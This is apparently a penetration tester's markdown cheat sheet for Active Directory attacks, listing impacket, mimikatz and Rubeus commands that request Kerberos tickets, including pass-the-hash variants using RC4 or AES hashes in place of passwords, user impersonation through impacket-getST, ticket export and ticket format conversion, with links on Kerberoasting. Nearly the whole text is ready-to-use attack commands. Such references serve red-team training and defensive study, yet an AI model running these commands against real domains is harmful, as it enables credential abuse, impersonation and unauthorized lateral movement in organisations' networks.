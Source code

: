 # ***Request Tickets (DU)***
## TGT
### impacket
```shell
impacket-getTGT -dc-ip `dc` domain/user:password
export KRB5CCNAME=[ticket].ccache
```
### mimikatz
```shell
privilege::debug
token::elevate

tgt::ask /domain: /user: /password:
```
### rubeus
```shell
.\Rubeus.exe asktgt /domain: /user: /password:
# Options
# /enctype:[rc4|aes128|aes256|3des]
# use aes256 (default) for enctype
# if you don’t have password but have hash, replace /password: with /rc4: /aes128: /aes256: or /des:
```
## TGS
### impacket
```shell
impacket-getST -dc-ip `dc` [domain]/[user]:[password] -spn [service]/[host]
# Options
# -hashes [hash]
# -impersonate [user]
# Note: Automatically modifies impersonate TGS so it can be used with other impacket tools.
```
### mimikatz
```shell
privilege::debug
token::elevate

kerberos::ask /target:[SPN]/[FQDN]
# /export to export
```
### rubeus
```shell
.\Rubeus.exe asktgs /service:[SPN]/[FQDN]
# Options
# /enctype:
# /user:[username]  
# /password:[password]
# if you don’t have password but have hash, replace /password: with /rc4: /aes128: /aes256: or /des:
```
## Convert tickets
```shell
impacket-ticketConverter admin.kirbi admin.ccache

# https://en.hackndo.com/kerberos/
# https://medium.com/@mayank_prajapati/all-you-need-to-know-about-kerberoasting-7215de0462c8
```